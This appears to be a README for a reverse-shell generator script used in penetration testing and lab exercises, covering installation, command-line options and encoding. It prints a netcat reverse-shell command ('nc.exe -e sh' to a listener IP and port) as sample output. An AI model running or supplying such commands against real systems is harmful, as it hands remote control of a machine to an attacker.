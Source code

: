 ## Install requirements  
- Into Reverse-shell-Generator directory
```bash
  pip3 install -r requirements.txt
```
## Quick usage

#### Clone the repository (or just copy-paste)
```bash
  sudo git clone https://github.com/Gurguii/Reverse-shell-Generator
```  
```bash
    cd Reverse-shell-Generator
```
#### Run the script
```bash
    python3 reverse.py -s <revshell_type> -lh <lhost> -lp* <lport> -enc* <encode_type> -list* <shell_type> --listall*
```  
**Note:** default LPORT is 4444, params with * are optional.    
**Available encodes**: base64(also accepts b64 as input), url  
### Useful info  
**LHOST CAN BE AN IP OR AN INTERFACE OR LOCALHOST(E.g. tun0 or 10.10.10.10)**
- Get a list of all available reverse shells 
```bash
    python3 reverse.py -listall
```  
- Get a list of reverse shells of a given type with the name
```bash
    python3 reverse.py -list bash
``` 
- Straight craft an specific rshell by name  
```bash
    python3 reverse.py -s bash=<name> -lh <lhost>
```
Output:  
 ![image](https://user-images.githubusercontent.com/101645735/178015002-a7ec7467-8b62-4c14-9648-e0c0bf90e019.png)

- Choose a specific reverse shell by name
```bash
    python3 reverse.py -s nc=exe -lh 10.10.10.10
```
This would return => **nc.exe -e sh 10.10.10.10 4444**

## Test 
- Created reverse shell:
```bashi
  hack@hack:~$ python3 reverse.py -s bash=gurgui -lh localhost -lp 9001
```
![If you see this text you are having trouble loading the gif :(](https://media.giphy.com/media/woqDTmU2pL2tc4eJ5c/giphy.gif)  

As you might have noticed, I wrote bash=gurgui, that's because I changed the name of that exact bash rshell to gurgui in the script.  
Having the script in ur path with custom names for shells you usually go for might make this super fast.
